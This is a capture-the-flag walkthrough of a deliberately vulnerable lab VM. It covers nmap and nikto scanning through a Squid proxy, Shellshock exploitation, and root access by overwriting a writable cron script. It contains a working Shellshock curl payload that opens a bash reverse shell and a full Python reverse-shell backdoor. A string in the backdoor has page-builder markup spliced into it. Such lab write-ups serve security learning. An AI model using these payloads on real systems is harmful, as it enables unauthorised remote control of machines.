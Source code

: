 ```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:08 AEDT
Nmap scan report for 192.168.114.2
Host is up (0.00013s latency).
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.133
Host is up (-0.088s latency).
MAC Address: 00:0C:29:69:FD:DA (VMware)
Nmap scan report for 192.168.114.254
Host is up (-0.10s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (4 hosts up) scanned in 4.68 seconds
```


```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:09 AEDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.20% done; ETC: 20:10 (0:00:05 remaining)
Nmap scan report for 192.168.114.133
Host is up (0.00086s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:69:FD:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```
Low hanging fruit.
```
3128/tcp open   http-proxy Squid http proxy 3.1.19
```
From this we can see that a proxy is open
Trying to connect to http://192.168.114.133 we can see that it is stuck on connecting, so we can assume it is behind a proxy.

We configure the proxy using firefox
Settings>Advanced>Connection>Manual Proxy Connection

Using proxy ip 192.168.114.133 on port 3128
We try to connect again and we made connected through.

HTTP Enumeration

Using NIKTO making sure to use it through a proxy
```
nikto -h 192.168.114.133 -useproxy 192.168.114.133:3128
```
```
OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```
Shellshock vulnerability is found, since it is a linux kernel it is incredibly easy to just pass through a reverse shell.


Vulnerability - Shellshock

Basic shellshock.
```
curl -H "User-Agent: () { :; } ; " website.com
```
Using curl and modifying this to include a reverse shell. Making sure to connect through the proxy
```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.114.131/1234 0>&1" 192.168.114.133/cgi-bin/status --proxy 192.168.114.133:3128
```

Limited Shell

Running a linux privilege checker script.

```
Scheduled cron jobs
    -rw-r--r-- 1 root root  722 Jun 20  2012 /etc/crontab
    /etc/cron.d:
    total 20
    drwxr-xr-x  2 root root 4096 Dec  5  2015 .
    drwxr-xr-x 90 root root 4096 Mar 16 14:35 ..
    -rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
    -rw-r--r--  1 root root   52 Dec  5  2015 automate
    -rw-r--r--  1 root root  544 Jul  2  2015 php5
```

We find automate which gives us a clue.
```
cat automate
* * * * * root /usr/bin/python /var/www/connect.py
```
```
cat /var/www/connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
According to this, it connects to things frequently, fortunately we have write access
```
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```
We can completely replace the file with an exploit named connect.py
From https://www.trustedsec.com/2011/06/creating-a-13-line-backdoor-worry-free-of-av/
```
#!/usr/bin/python
# imports here
import socket,subprocess
HOST = '192.168.114.131'    # The remote host
PORT = 1234            # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connect to attacker machine
s.connect((HOST, PORT))
# send we are connected
s.send('[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][*] Connection Established!')
# start loop
while 1:
     # recieve shell command
     data = s.recv(1024)
     # if its quit, then break out and close socket
     if data == "quit": break
     # do shell command
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     # read output
     stdout_value = proc.stdout.read() + proc.stderr.read()
     # send output to attacker
     s.send(stdout_value)
# close socket
s.close()

```
Root
